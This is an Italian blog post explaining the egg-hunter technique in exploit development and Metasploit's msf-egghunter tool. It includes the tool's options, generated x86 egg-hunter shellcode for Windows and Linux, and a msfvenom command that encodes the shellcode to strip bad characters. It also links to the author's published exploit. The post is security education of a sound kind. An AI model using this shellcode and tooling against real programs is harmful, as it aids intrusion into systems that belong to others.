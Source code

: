 ```yaml
---
layout: post
title: "Diamo un'occhiata a msf-egghunter"
author: thesp0nge
featured: true
category: [post]
tags: [egghunter, exploit, offensive, payload, assembly]
image:
  feature: eggs.jpg
comments: true
share: true
---
```


Lo scorso febbraio, su [The Armored
Code](https://armoredcode.com/blog/a-closer-look-to-msf-egghunter/) ho scritto
un post che parlava di msf-egghunter, lo strumento distribuito insieme a
Metasploit per scrivere un egg hunter.

Lo scorso anno, per la certificazione SLAE, mi [ero già
imbattuto](https://codiceinsicuro.it/slae/assignment-3-an-egg-hunter-journey/)
in questa tecnica che ho trovato immediatamente affascinante.

Stiamo parlando di sviluppo di un exploit. Avete, in qualche modo, forzato la
modifica del flusso di esecuzione del vostro programma vulnerabile (attraverso
la sovrascrittura dell'EIP o attraverso la Structure Exception Handler, nel
caso il target sia Windows) e siete nel punto dove dovete piazzare il vostro
shellcode. A questo punto sorge un problema, il buffer nel quale siete è troppo
piccolo per contenere una bind shell, una reverse shell o qualsiasi cosa utile
a darvi un prompt.

Che fare? Semplice; andate a studiare il paper di Matt Miller, ["Safetly
Searching Process Virtual Address
Space"](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) e poi
tornate qui.

Fatto? Molto bene. L'idea alla base di questa tecnica è quella di piazzare il
nostro shellcode in un punto qualsiasi della memoria del processo da attaccare.
Lo shellcode avrà in testa una sequenza di 4 byte, ripetuta 2 volte per evitare
falsi positivi, che sarà interpretata come un indicatore di inizio per il
nostro payload. Il codice dell'egg-hunter, che andremo a piazzare nel piccolo
buffer di cui parlavamo prima, avrà il compito di cercare nella memoria del
processo vittima, i 4 byte di inizio payload e, una volta trovati, far saltare
l'esecuzione a quel punto in memoria.

Per la SLAE
[scrissi](https://github.com/thesp0nge/SLAE/tree/master/Assignment_3) un
semplice codice assembler che realizzava un egg-hunter. Oggi vediamo uno
strumento messo a disposizione dal framework Metasploit:
[msf-egghunter](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/egghunter.rb).

{%highlight sh%}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -h
Usage: msf-egghunter [options]
Example: msf-egghunter -f python -e W00T

Specific options:
    -f, --format <String>            See --list-formats for a list of supported output formats
    -b, --badchars <String>          (Optional) Bad characters to avoid for the egg
    -e, --egg <String>               The egg (Please give 4 bytes)
    -p, --platform <String>          (Optional) Platform
        --startreg <String>          (Optional) The starting register
        --forward                    (Optional) To search forward
        --depreg <String>            (Optional) The DEP register
        --depdest <String>           (Optional) The DEP destination
        --depsize <Integer>          (Optional) The DEP size
        --depmethod <String>         (Optional) The DEP method to use (virtualprotect/virtualalloc/copy/copy_size)
    -a, --arch <String>              (Optional) Architecture
        --list-formats               List all supported output formats
    -v, --var-name <name>            (Optional) Specify a custom variable name to use for certain output formats
    -h, --help                       Show this message

{%endhighlight%}

## Semplice utilizzo del tool

L'utilizzo base di msf-egghunter è quello di scegliere la piattaforma (windows
o linux) e l'architettura (a 32 o 64 bit). Unico parametro mandatorio sarà
l'EGG da utilizzare per marcare l'inizio del nostro payload; useremo la stringa
'BEEF' allo scopo.

{% highlight sh %}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -p windows -a x86 -f python -e BEEF
buf =  ""
buf += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c"
buf += "\x05\x5a\x74\xef\xb8\x42\x45\x45\x46\x89\xd7\xaf\x75"
buf += "\xea\xaf\x75\xe7\xff\xe7"

[root:~/src/hacking/toolbox/utils]# msf-egghunter -p linux -a x86 -f python -e BEEF
buf =  ""
buf += "\xfc\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c"
buf += "\xf2\x74\xf1\xb8\x42\x45\x45\x46\x89\xcf\xaf\x75\xec"
buf += "\xaf\x75\xe9\xff\xe7"
{% endhighlight %}

## Evitare i bad characters

Quando stiamo scrivendo un exploit, siamo nella condizione di non poter
utilizzare alcuni caratteri nel nostro payload. Magari a causa di una routine
di filtro, alcuni codici ascii utilizzati nel nostro payload potrebbero non
essere gestiti correttamente dal programma vittima e non copiati nelle proprie
zone di memoria.

Vanno quindi rimossi e sembra che il parametro '-b' sia lì proprio per quello
peccato che, almeno nella versione di Metasploit 5.0.6-dev, non funzioni.
Supponiamo io debba creare uno shellcode per Linux, architettura a 32 bit e
voglia usare sempre 'BEEF' come egg.

{%highlight sh%}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -p linux -a x86 -f python -e BEEF -b '\x66'
buf =  ""
buf += "\xfc\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c"
buf += "\xf2\x74\xf1\xb8\x42\x45\x45\x46\x89\xcf\xaf\x75\xec"
buf += "\xaf\x75\xe9\xff\xe7"
{%endhighlight%}

Come si può vedere, il nostro carattere '\x66' è ancora lì al suo posto.
Quindi? Quindi chiedo aiuto a msfvenom, strumento principe per la generazione
dei payload e che è in grado di fare delle trasformazioni ad un shellcode
arbitrario passato attraverso lo standard input. 

{%highlight sh%}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -p linux -a x86 -e BEEF -f raw | msfvenom -p - --platform linux -a x86 -b '\x66' -f python

Attempting to read payload from STDIN...
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 58 (iteration=0)
x86/shikata_ga_nai chosen with final size 58
Payload size: 58 bytes
Final size of python file: 292 bytes
buf =  ""
buf += "\xd9\xe9\xbd\x34\x49\xad\xb8\xd9\x74\x24\xf4\x5e\x29"
buf += "\xc9\xb1\x08\x83\xc6\x04\x31\x6e\x16\x03\x6e\x16\xe2"
buf += "\xc1\xb5\xcb\x39\xe0\xb9\x1b\x7b\x98\x06\x7c\xb6\xdc"
buf += "\xb5\x8e\x3c\x2d\x7d\x2c\xf8\x88\x38\x38\xcd\xbd\xb0"
buf += "\xd6\x7d\xb4\xd3\xd8\x65"

{%endhighlight%}

Ed ecco qui, il carattere '\x66' è sparito. Quello che vi consiglio è di usare
msfvenom per tutto quello che riguarda l'encoding e la trasformazione del
vostro egg-hunter in pipe ad msf-egghunter.

## Il cuore

Il cuore del codice di msf-egghunter è nella libreria rex-exploit sviluppata da Rapid7, il cui codice è disponibile [qui su GitHub](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/egghunter.rb).

Dal codice possiamo leggere nei commenti i miglioramenti fatti rispetto al
lavoro di Miller. Interessante il codice per [disabilitare il
DEP]((https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/)
scritto da corelandc0d3r.

## Off by one

Per avere un esempio pratico, vi do il link di questo exploit che ho scritto
per [Base64 Decoder 1.1.2](https://www.exploit-db.com/exploits/46625) mostra
msf-egghunter in azione. A me questa tecnica piace un sacco, è divertente
pensare al processo vittima che cerca in memoria il codice per bucarsi, lo
esegue e ti restituisce una shell.

Enjoy it!

